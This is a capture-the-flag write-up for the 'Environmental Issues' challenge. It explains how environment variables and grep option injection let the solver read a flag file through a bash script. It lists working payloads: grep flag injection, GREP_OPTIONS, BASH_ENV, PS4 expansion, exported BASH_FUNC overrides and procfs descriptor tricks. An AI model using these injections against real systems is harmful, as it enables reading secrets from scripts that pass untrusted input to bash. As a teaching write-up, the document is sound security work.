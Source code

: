 # Environmental Issues (pwn or misc, depends on who you ask; 6 flags with
varying solve counts)

The server greets us with  
```  
Hello! Send me a json array of [key, val, arg] lists and I will  
execute `key=val bash script.sh arg' for each of them. You get  
a flag when you have 10, 13, and 15 solutions with unique keys.  
You may need to shutdown the input (send eof, -N in nc).  
```

Let's address the elephant in the room first. Take a close look at this line  
of the script:  
```bash  
   line="$(grep "${1:?Missing arg1: name}" < issues.txt)"  
```

Looks like we can inject grep flags without any environment variables. After  
a bit of fiddling, we discover that short options can take an argument without  
a space: `-fflag`. This will search the input for the flag (read from the flag
file).  
We can also combine options. At this point, we see that `-rfflag` works
locally,  
as it searches the entire current directory for the contents of the `flag`
file,  
and finds it in the flag file.

However, when we send this to the server, it hits the timeout. This is not too  
surprising, as we're searching through the entire filesystem. As an
optimization,  
we added the `-I` (ignore binaries) and `-F` (search for fixed string) flags.  
This lets us get as many points as we need:  
```  
[  
   ["bepis", "bepis", "-rIFflag"],  
   ["bepiS", "bepis", "-rIFflag"],  
   ["bepIs", "bepis", "-rIFflag"],  
   ["bepIS", "bepis", "-rIFflag"],  
   ["bePis", "bepis", "-rIFflag"],  
   ["bePiS", "bepis", "-rIFflag"],  
   ["bePIs", "bepis", "-rIFflag"],  
   ["bePIS", "bepis", "-rIFflag"],  
   ["bEpis", "bepis", "-rIFflag"],  
   ["bEpiS", "bepis", "-rIFflag"],  
   ["bEpIs", "bepis", "-rIFflag"],  
   ["bEpIS", "bepis", "-rIFflag"],  
   ["bEPis", "bepis", "-rIFflag"],  
   ["bEPiS", "bepis", "-rIFflag"],  
   ["bEPIs", "bepis", "-rIFflag"],  
   ["bEPIS", "bepis", "-rIFflag"]  
]  
```

Unsurprisingly, this lead to the release of a patched challenge, "Regulated  
Environmental Issues":  
```diff  
-    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"  
+    line="$(grep -- "${1:?Missing arg1: name}" < issues.txt)"  
```

Let's look at the actual environment variables, then:

- grep prepends `GREP_OPTIONS` to its arguments. When we set `GREP_OPTIONS=Flag`,  
  we provide `Flag` as the search pattern, and the argument passed by the
script  
  turns into the path being searched.  
  ```  
  ["GREP_OPTIONS","Flag","flag"],  
  ```  
- The script checks whether `USE_SED` is set. If so, we can inject sed commands.  
  Let's terminate the search command, and then use the `r` command to read the  
  flag file. Hide trailing characters with a comment.  
  ```  
  ["USE_SED","bepis","C/r flag\n#"],  
  ```  
- `BASH_ENV` contains a path to a file that is sourced by bash when executing scripts  
  (think `.bashrc`). `BASH_ENV=flag` makes bash print the flag to stderr,
complaining  
  that no such command exists.  
  ```  
  ["BASH_ENV","flag","bepis"],  
  ```  
- `PS4` is the prompt used for tracing with `set -x`. It can contain variable  
  and command expansions.  
  ```  
  ["PS4","`cat flag`","bepis"],  
  ```  
- To progress further, we must learn that there is a way to export bash functions  
  into the environment:  
  ```  
  ["BASH_FUNC_grep%%", "() { cat flag; }", "bepis"],  
  ["BASH_FUNC_set%%",  "() { cat flag; }", "bepis"],  
  ["BASH_FUNC_test%%", "() { cat flag; }", "bepis"],  
  ["BASH_FUNC_echo%%", "() { cat flag; }", "bepis"],  
  ["BASH_FUNC_bash%%", "() { cat flag; }", "bepis"],  
  ```  
- Surprisingly, `return` is not a keyword and can be overwritten too:  
  ```  
  ["BASH_FUNC_return%%", "() { cat flag; }", "bepis"],  
  ```  
- Let's also not forget about the commands executed by the subshell spawned by the  
  `quiet` function:  
  ```  
  ["BASH_FUNC_eval%%", "() { cat flag; }", "bepis"],  
  ["BASH_FUNC_exec%%", "() { cat flag; }", "bepis"],  
  ```  
- `hash` is executed inside of `silent`, so printing the flag out of there  
  is somewhat difficult. I chose to overwrite the `silent` function when
`hash`  
  is executed, and wait until it's used again at `silent imaginary`.  
  ```  
  ["BASH_FUNC_hash%%", "() { silent() { cat flag; }; return 1; }", "bepis"],  
  ```  
- `cat` is even more problematic, as the entire shell in which it runs has no  
  open file descriptors. We need to use procfs:  
  ```  
  ["BASH_FUNC_cat%%", "() { read flag < flag; echo $flag > /proc/$PPID/fd/1;
}", "bepis"],  
  ```  
  (I am using `read` and `echo` instead of `cat` to avoid recursion. Just now,
I have  
  realized that `command cat` would also work.)  
- The last one is somewhat tricky, but that whole `imaginary` part of the script  
  is makes you realize quite soon that you need to use the command not found
hook  
  that Ubuntu uses to tell you which apt package you need to install. A quick
Google  
  later, we obtain the final flag:  
  ```  
  ["BASH_FUNC_command_not_found_handle%%", "() { cat flag > /proc/$$/fd/1; }",
"bepis"],  
  ```

(Note that the above timeline is abridged. In reality, we realized how to
exploit  
the unintended grep issue after we already found 14 legitimate environment
variables.)  

Original writeup (https://github.com/p4-team/ctf/tree/master/2020-05-10-spam-
and-flags-teaser/environmental_issues).